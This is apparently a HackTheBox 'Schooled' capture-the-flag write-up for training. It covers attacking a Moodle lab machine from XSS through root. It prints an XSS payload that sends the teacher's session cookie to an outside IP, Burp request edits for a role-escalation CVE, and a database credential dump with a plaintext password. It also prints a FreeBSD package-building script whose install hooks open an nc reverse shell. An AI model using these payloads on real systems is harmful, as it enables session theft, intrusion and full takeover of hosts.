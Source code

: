 ```yaml
---
title: HackTheBox - Schooled Writeup
date: 2021-05-06 09:45:47 +07:00
categories: hackthebox
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: HackTheBox Schooled Writeup.
---
```


<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/3e2a599fda2f510f3a5f2146fae928ee.png">
</p>


Get ready to be schooled trying this one!

*[Find the official room for Hackthebox's - Schooled here!](https://app.hackthebox.eu/machines/335)*


----------------------------------------------------------------------------------------------------

## ENUMERATION

- Beginning enumeration with nmap using a default script and version scan with the verbosity on to see open ports on the fly without having to wait for the scan to finish. Ports 22,80 are found open.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled1.png)
- Scanning for all ports using nmap shows **mysql** is running on port **33060**.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled2.png)
- Trying to see if we can remotely access the database results in no access. 
- Moving on, we begin by looking at port 80 as always....
- Looking at page source suggests for adding an entry in our hosts list. Add `schooled.htb     <corresponding IP>` to your `/etc/hosts` file and continue browsing the site. 
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled3.png)
- Looking at the about us page . We discover The possble CMS used is - **Moodle**
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled4.png)
- Looking at the Teachers page , we find a bunch of possible unames and roles. Add them to a `user.list` file.
    ```bash
    Jane Higgins :- Scientific Research lecturer
    Lianne Carter:- Manager and English Teacher
    Manuel Phillips:- Mathematics Teacher
    Jamie Borham:- Information Technology lecturer
    ```
- Directory bruteforcing using `gobuster` dosent result in anything too useful.
- So far info discovered:
    ```bash
    mail: admissions@schooled.htb
    From wappalyzer: Php 7.4.15, Apache2, Bootstrap 4.1.0
    ```
- Nothing seems too useful so far. No admin/login panels were found so far.
- Using `gobuster` for `vhost` bruteforcing we find: `moodle.schooled.htb`
- Add `moodle.schooled.htb` to your `/etc/hosts` list and browse to it as before.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled5.png)
- Visiting the page lets us signup without a confirmation.
- Abuse this to create an account next. While signing up the mail naming convention is name@student.schooled.htb.
- After unsuccesfull attempts to upload a payload and get rce, what is odd is that `Manuel Phillips` (teacher) was online and the owner of the maths course. A Possible XSS attack could be attempted.
- On Looking for the Moodle versions and [CVE] we find 2 major.
- Looking at the announcement section Manuel Phillips hints at the MoodleNet Profile in the user settings section. This could be used as the potential XSS avenue. 


----------------------------------------------------------------------------------------------------

## FOOTHOLD:

- Setup a `xss-server` with this [simple python script](https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py). 
- Start the server. 
- Enroll in the maths course .
- Use this xss payload: `<img src=x onerror=this.src='http://10.10.14.51:8888/?'+document.cookie;>`
- Paste it in the user settings section
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled6.png)
- Wait for a few seconds and recieve the teachers cookie on your `xss-server`.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled7.png)
- Copy this `cookie --> Inspect Element --> Storage --> replace MoodleSession's value to the cookie`. Refresh the pg/F5 to. You're Now Manuel Phillips (Teacher).

### PRIVILEGE ESCALATION: TEACHER --> MANAGER --> ADMIN

- A interesting site is found while searching for exploits: [moodle_priv_esc](https://moodle.org/security/index.php?o=3&p=2)
- This shows that  a privesc was possible from teacher to manager role is possible by exploiting the course enrollment functionality. 
- Looking at our `users.txt` we know that Lianne Carter is a manager and we could possibly perform the exploit with this user.
- Looking up the cve on github a POC is found: [exploit_poc](https://github.com/HoangKien1020/CVE-2020-14321)
- Steps to perform this privesc:
    - Go to the maths section as `teacher --> Participants`.
    - Click on the Enroll Users option and enroll Lianne carter. Switch on intercept in burp and intercept the passed request.
    - Send the request to repeater and change the following 2 values to match that of your current teacher(`id=24`).
    - Changed these params to match: `userlist%5B%5D=24&roletoassign=1`. (Changing user id to teachers id == 24 and changing role to admin == 1)
![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled8.png)
- Send the request and stop intercept after.
    - From here click on Lianne carter's profile from the below list. Note to see the difference and an Administration button appear on the side.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled9.png)
- Click on it and now we have manager privileges.
- From the POC discussed above we can add even more privileges to allow us to install a plugin of choice. To do this click on site administration from here.
- Click on `Users --> define roles`.  Click on the 'edit' icon in the manager role. Turn intercept on before you do and add the payload from the POC described. Forward the request to get admin privileges.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled10.png)
- Next grab `rce.zip` from [here](https://github.com/HoangKien1020/Moodle_RCE)
- Unzip the file. Modify `block_rce.php` file to a standard php reverse shell of your choosing. Zip back the contents using `zip -r -q lala.zip rce`
- Click on install plugin after `upload --> continue`. You will see a screen with current information. Dont go past it . Time to trigger the rce.
- Setup an `nc` listener , Open a new tab and  trigger the exploit using this link **http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php**
- We now have a shell. 


----------------------------------------------------------------------------------------------------


## POST EXPLOITATION

**user.txt:**

- Poking around and looking for config files, we find the apache and moodle data directory as `usr/local/www/apache24/data/moodle/`.
- Checking the contents of the **config.php** file in dir:
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled11.jpg)
- We get database creds as *moodle:P################0* .
- Notice that mysql dosent exist in PATH. We find mysql using the basic find command: `find / -name mysql 2> /dev/null`
- Mysql is at `/usr/local/bin/mysql`.
- We perform 3 basic queries now to enumerate the database: 
    - First cd to /usr/local/bin.
- Then:
    > `mysql -u moodle -pPlaybookMaster2020 -e 'show databases;'` --> infer moodle as the db name.
    
    > `mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; show tables;'`  --> infer mdl_user could be of interest.
    
    > `mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; select * from mdl_user;'` --> DB creds dump. 
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled12.png)
- Jamie's account here is of interest as he is one of the users on the box.
- This hash is a `bcrypt hash`.
- Use john the ripper to crack the hash:
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled13.jpg)
- Jamies creds: *jamie:!#####x*
- Now ssh over with these creds.
- Grab `user.txt` from jamie's home directory.

**root.txt**

- Performing a basic `sudo -l`:
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled14.png)
- Poking around the internet and doing some good research on what the command is we find that it is a distinct binary that is replaced by the bootstrapped binary during the initial installation process.
- We can use this to probably install a custom package with code modified to privilege escalate to root.
- [Refer this article](http://lastsummer.de/creating-custom-packages-on-freebsd/)
- After reading the article put it all as a single script and modify parts of it as per your host listener. Use`nc` shells as the box has netcat and bsd just wouldn't work well with regular bash shells.
- The script :
    ```bash
    #!/bin/sh
    STAGEDIR=/tmp/stage
    rm -rf ${STAGEDIR}
    mkdir -p ${STAGEDIR}
    cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
    # careful here, this may clobber your system
    echo "Resetting root shell"
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9001 >/tmp/f
    EOF
    cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
    # careful here, this may clobber your system
    echo "Registering root shell"
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9001 >/tmp/f
    EOF
    cat >> ${STAGEDIR}/+MANIFEST <<EOF
    name: mypackage
    version: "1.0_5"
    origin: sysutils/mypackage
    comment: "automates stuff"
    desc: "automates tasks which can also be undone later"
    maintainer: john@doe.it
    www: https://doe.it
    prefix: /
    EOF
    echo "deps: {" >> ${STAGEDIR}/+MANIFEST
    pkg query "  %n: { version: \"%v\", origin: %o }" portlint >> ${STAGEDIR}/+MANIFEST
    pkg query "  %n: { version: \"%v\", origin: %o }" poudriere >> ${STAGEDIR}/+MANIFEST
    echo "}" >> ${STAGEDIR}/+MANIFEST
    mkdir -p ${STAGEDIR}/usr/local/etc
    echo "# hello world" > ${STAGEDIR}/usr/local/etc/my.conf
    echo "/usr/local/etc/my.conf" > ${STAGEDIR}/plist
    pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -p ${STAGEDIR}/plist -o .
    ```
- Save the script and make it an executable: `chmod +x script.sh`
- Execute the script and note to see a package made named: `mypackage-1.0_5.txz`
- Run : `sudo /usr/sbin/pkg install --no-repo-update mypackage-1.0_5.txz` (`--no-repo-update` to stop it from checking an online source) and start a listener.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled15.png)
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled16.png)
- Grab `root.txt` from the root home directory.

--------------------------------------------------------------


